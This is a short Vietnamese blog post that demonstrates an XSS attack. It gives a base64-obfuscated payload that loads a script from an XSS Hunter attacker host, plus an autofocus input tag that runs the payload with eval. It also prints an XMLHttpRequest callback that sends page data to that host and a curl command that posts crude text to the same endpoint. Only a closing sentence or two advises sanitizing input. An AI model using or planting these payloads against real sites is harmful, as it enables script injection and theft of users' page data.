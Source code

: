 ```yaml
---
title: (Vi) XSS attack sample
author: lk
tags: security
---
```


Disclaimer: Kỹ thuật này có thể đã lạc hậu tại thời điểm bài  này đuợc viết ;). Enjoy your day lah ^^.

**XSS attack là kỹ thuật tấn công khá phổ biến bên cạnh SQL injection. Hãy cùng xem thử một ví dụ mà attacker inject thành công một đọan mã độc vào hệ thống nhé!**


Đầu tiên, hãy chạy đoạn thử js này trong js console

```js
> atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7')

> 'var a=document.createElement("script");a.src="https://d0x5.xss.ht";document.body.appendChild(a);'
```
một vài browser hiện đại thì đã chặn việc chạy các đoạn mã độc như trên


```
> # thử eval đoạn mã độc phía trên 
> eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7'))

> VM91:1 This document requires 'TrustedScript' assignment and no 'default' policy for 'TrustedScript' has been defined.
(anonymous) @ VM91:1
VM91:1 Uncaught EvalError: Refused to evaluate a string as JavaScript because 'unsafe-eval' is not an allowed source of script in the following Content Security Policy directive: "script-src chrome://resources 'self'".
```


Nếu bạn tò mò, tận mắt thấy, hãy nhúng đoạn code dưới này vào file html bất kỳ nào đó, mở ở chế độ **private mode**
```
<input
    onfocus=eval(atob(this.id))
    id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7
 autofocus>
```
link đến thư viện mà attacker xài, https://d0x5.xss.ht/ . Biết đâu bạn có thể modify một vài thông tin gửi về attacker = việc modify data 
gửi về cho attacker trong hàm bên dưới
```
    var http = new XMLHttpRequest();
    var url = "https://d0x5.xss.ht/page_callback";
    http.open("POST", url, true);
    http.setRequestHeader("Content-type", "text/plain");
    http.onreadystatechange = function() {
        if(http.readyState == 4 && http.status == 200) {

        }
    }
    http.send( JSON.stringify( page_data ) );
}
```
Hoặc callback luôn bằng curl
```
> curl -v -XPOST 'https://d0x5.xss.ht/page_callback' -d'{"page_html":"fuckyou", "uri":"fuck you again"}'
```

**Hãy luôn sanitize input data có kiểu string ;) và kỹ hơn nữa thì nên sanitize data load từ database khi render html page.**
Hoặc nên dùng các thư viện ORM có hỗ trợ việc sanitize/ cast các malicious input data này.

Nếu bạn còn tò mò, hãy vọc vạch thêm từ đây https://xsshunter.com/
